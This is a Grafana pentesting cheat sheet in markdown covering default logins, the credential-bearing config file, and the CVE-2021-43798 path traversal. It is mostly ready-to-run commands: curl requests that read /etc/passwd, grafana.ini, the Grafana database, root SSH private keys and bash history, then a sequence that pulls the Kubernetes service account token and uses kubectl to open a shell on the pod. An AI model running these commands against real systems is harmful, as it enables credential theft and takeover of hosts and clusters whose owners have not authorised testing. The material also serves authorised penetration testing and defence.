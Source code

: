 ```yaml
---
title: Grafana Pentesting
description: Grafana is a multi-platform analytics and interactive visualization web application.
tags:
    - Web
refs:
date: 2023-01-15
draft: false
---
```


## Default Credential

```sh
admin:admin
admin:prom-operator
```

<br />

## Configuration File

The configuration file contains the admin credentials. See the “admin_user” and “admin_password” section in the file.

```txt
/etc/grafana/grafana.ini
```

<br />

## Path Traversal

```sh
curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../etc/passwd -o passwd
curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini -o grafana.ini
curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../root/.ssh/id_rsa
curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../root/.bash_history
curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../home/grafana/.ssh/id_rsa
curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../home/grafana/.bash_history
```

<br />

## Getting a Shell vis JWT, Grafana Pod

Some Grafana versions are vulnerable to Path Traversal. Kubernetes creates environment variables by default.

### 1. Check Environment Variables on the Target Machine

```sh
env
```

If you got the GRAFANA environment like the following, the Grafana service is running on the cluster.  

```txt
GRAFANA_SERVICE_HOST=10.108.133.228
GRAFANA_PORT=tcp://10.108.133.228:3000
GRAFANA_PORT_3000_TCP=tcp://10.108.133.228:3000
```

### 2. Access the Grafana Dashboard

You can access the service at **http://\<grafana-ip>:\<grafana-port>**.  

### 3. Get the JWT of the Service Account

Using Path Traversal ([CVE-2021-43798](https://github.com/jas502n/Grafana-CVE-2021-43798)).

```sh
curl --path-as-is http://<grafana-ip>:<grafana-port>/public/plugins/alertlist/../../../../../../../../etc/passwd
```

Get the token (JWT) of the service account.

```sh
curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
```

### 4. Decode the JWT and Get Sensitive Information

See **[JWT Pentesting](jwt-pentesting.md)**.
    

### 5. Check Your Permission of This Service

Using the JWT, you should get permissions.

```sh
kubectl auth can-i --list --token=<Grafana-JWT>

# List pods
kubectl get pods --token=<JWT>
```

### 6. Get a Shell on the Grafana Pod

```sh
kubectl exec -it <grafana-pod-name> --token=<Grafana-JWT> -- /bin/bash
```

